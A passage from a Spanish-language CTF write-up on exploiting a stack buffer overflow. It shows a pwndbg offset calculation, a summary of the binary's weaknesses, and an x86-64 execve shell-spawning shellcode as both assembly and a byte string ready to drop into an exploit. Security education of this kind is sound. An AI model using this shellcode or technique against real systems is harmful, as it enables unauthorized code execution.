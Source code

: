 ```gdb
pwndbg> cyclic -l 0x6169616161616161

Finding cyclic pattern of 8 bytes: b'aaaaaaia' (hex: 0x6161616161616961)
Found at offset 58
```

###### Conclusiones

Tras todo el análisis, repasemos la información que recopilamos de este `binario` y que será clave para el desarrollo del `exploit`:

- Se aleatorizan las `direcciones de memoria`, pero no hay ningun mecanismo de protección en la `pila`.
- Filtra una `dirección de memoria` específica.
- Es susceptible a `Buffer Overflow` cuando pregunta si deseas ser notificado.
- La respuesta a esta pregunta comienza su escritura 2 `bytes` antes de la dirección filtrada.
- Tras los primeros 58 `bytes` escritos, los siguientes sobreescriben la `dirección de retorno` de la `función` _main_.

## Explotación

Antes que nada, busqué un `Shellcode` adecuado en la página web [Shell Storm](https://shell-storm.org/shellcode/index.html), para la arquitectura `x86-64` y plataforma `Linux`

Opté por el `Shellcode` [`execve("/bin/bash",{NULL},{NULL}) - 24 bytes`](https://shell-storm.org/shellcode/files/shellcode-909.html) que simplemente ejecuta una `línea de comandos`, especificamente `bash`.
El código en `ensamblador` de la página es el siguiente:

```nasm
mov rax, 0x68732f6e69622f
push rax
push rsp
pop rdi
xor eax, eax
push rax
mov al, 59
push rsp
pop rdx
push rsp
pop rsi
syscall
```

Con apoyo de un [ensamblador en línea](https://defuse.ca/online-x86-assembler.htm), **ensamblé** este código para la arquitectura `x64`, verificando así su integridad y compatibilidad.

En consecuencia, la página te brinda varias representaciones del `código ensamblado`, pero la más útil para este ejercicio es _String Literal_, que es la siguiente cadena:

```python
"\x48\xB8\x2F\x62\x69\x6E\x2F\x73\x68\x00\x50\x54\x5F\x31\xC0\x50\xB0\x3B\x54\x5A\x54\x5E\x0F\x05"
```

Así, podemos incorporar directamente esta cadena en el `exploit` sin más problemas.
